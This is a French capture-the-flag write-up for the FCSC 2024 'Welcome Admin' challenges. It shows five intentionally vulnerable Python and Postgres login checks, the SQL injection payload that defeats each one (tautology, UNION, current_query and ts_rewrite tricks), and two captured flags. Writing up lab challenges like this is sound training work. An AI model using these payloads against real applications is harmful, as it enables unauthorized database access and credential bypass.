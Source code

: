 # FCSC 2024
## Challenges :
Welcome Admin 1/2  
Welcome Admin 2/2

## Thème : Injection de SQL
## Welcome Admin 1/2  
Au cœur d'un réseau labyrinthique, là où la lumière des écrans peine à éclairer les recoins les plus sombres, une demande spéciale est lancée dans les abîmes, un appel discret, attendu seulement par ceux qui connaissent les profondeurs. Seul un véritable expert pourra répondre à l'appel, cryptiquement formulé : "Un expert en SQL est demandé à la caisse numéro 3."

## Welcome Admin 2/2
Au cœur d'un réseau labyrinthique, là où la lumière des écrans peine à éclairer les recoins les plus sombres, une demande spéciale est lancée dans les abîmes, un appel discret, attendu seulement par ceux qui connaissent les profondeurs. Seul un véritable expert pourra répondre à l'appel, cryptiquement formulé : "Un expert en SQL est demandé à la caisse numéro 3."

URL du serveur : https://welcome-admin.france-cybersecurity-challenge.fr/

![Login](login.png)

Lien du serveur de l’archive container : 
https://france-cybersecurity-challenge.fr/files/e8c67b40e1e1a23305e8592a647e5756/welcome-admin.tar.xz?token=eyJ1c2VyX2lkIjozNDEsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjE4OH0.Zhz9kg.gxNsCVdWeE4J0Wck30a0B0YfEbU

## Analyse des sources :
Serveur web écrit en Python avec une base Postgres
On peut le lancer en locale : 
docker-compose up --build
Le serveur est alors disponible en 127.0.0.1 :8000

Le code est assez simple , il y a 5 url qui correspondent aux 5 niveaux d’administration. 
Chaque niveau d’administration correspond à une injection SQL plus ou moins tordu	




## Level 1 :
Code python :
```python
cursor.execute(f"SELECT '{token}' = '{password}'")
```

Injection :
```
' OR '1' = '1
```

Flag : FCSC{94738150696e2903c924f0079bd95cd8256c648314654f32d6aaa090846a8af5}

## Level 2 :
Code python :
```python

  cursor.execute(
        f"""
            CREATE FUNCTION check_password(_password text) RETURNS text
            AS $$
                BEGIN
                    IF _password = '{token}' THEN
                        RETURN _password;
                    END IF;
                    RETURN 'nope';
                END;
            $$ 
            IMMUTABLE LANGUAGE plpgsql;
        """
    )
    cursor.execute(f"SELECT  check_password('{password}')")
```

La problématique est d’afficher le mot de passe aléatoire de la procédure. 
On utilise la table pg_proc & on fait un substring pour récupérer la valeur.

Injection :
```
t')  UNION (select SUBSTRING(pg_get_functiondef(oid) FROM 178 FOR 32) from pg_proc where proname = 'check_password') LIMIT ('2
```

## Level 3 :
Code python :
```python

cursor.execute(f"SELECT '{token}', '{password}';")
    row = cursor.fetchone()
    if not row:
        return False
    if len(row) != 2:
        return False
    return row[1] == token
```

La problématique est ici assez tordue. Il faut que la deuxième de la colonne de requête soit régale au token.
En explorant les fonctions tordu de la doc de postgres, je suis tombé sur current_query() qui permet de récupérer cette requête.
Injection :
```
' || SUBSTRING(current_query() FROM 9 FOR 32) --
```

## Level 4 :
Code python :
```python

cursor.execute(f"""SELECT md5(random()::text), '{password}';""")
```

Il est probablement impossible de deviner le md5(random() ::text)
Le plus est donc de faire qu’on injecte une nouvelle ligne de données et on ignore la première avec le UNION SELECT … OFFSET

Injection :
```
' UNION SELECT 'toto', 'toto' OFFSET 1 –
```


## Level 5 :
Code python :
```python

@app.route("/turbo-admin", methods=["GET", "POST"])
@login_for(Rank.TURBO_ADMIN, Rank.FLAG, "/flag")
def level5(cursor: cursor, password: str):
    table_name = "table_" + os.urandom(16).hex()
    col_name = "col_" + os.urandom(16).hex()
    token = os.urandom(16).hex()

    cursor.execute(
        f"""
        CREATE TABLE "{table_name}" (
          id serial PRIMARY KEY,
          "{col_name}" text
        );

        INSERT INTO "{table_name}"("{col_name}") VALUES ('{token}');
        """
    )
    cursor.execute(f"SELECT '{password}';")
    row = cursor.fetchone()
    print(row)
    if not row:
        return False
    if len(row) != 1:
        return False
    return row[0] == token
```


Le token, le plus tordu à récupérer.  Il est stocké dans une table avec un nom aléatoire et un nom de colonne aléatoire avec un contenu aléatoire.
Difficulté, on ne peut pas normalement pas faire de requête avec des nom variabilisé.
Il me fallait donc un sorte de fonction eval qui consomme un string pouvant contenir une requête.
Je suis tombé sur les ts_rewrite , to_tsquery dans la doc. 
Recherche rapide sur google pour trouver exemple d’utilisation sous forme d’exploit. Je tombe sur :
https://www.synacktiv.com/publications/dont-fear-the-bark-tsrewrite-to-dodge-the-mark

Le job est presque fait :
Injection :
```
' UNION SELECT SUBSTRING(CAST(ts_rewrite('lock', 'SELECT to_tsquery(''lock''), to_tsquery(' || (SELECT column_name || ') FROM ' || table_name FROM information_schema.columns WHERE column_name like 'col\_%' and table_name like 'table\_%' LIMIT 1)) AS TEXT)||'', 2, 32) OFFSET 1  --
```

Enfin, le flag :
```
FCSC{a380e590ae8ffe8da9bb86f27d05203b7f9d32dd37c833c2764097840848b3a2}
```
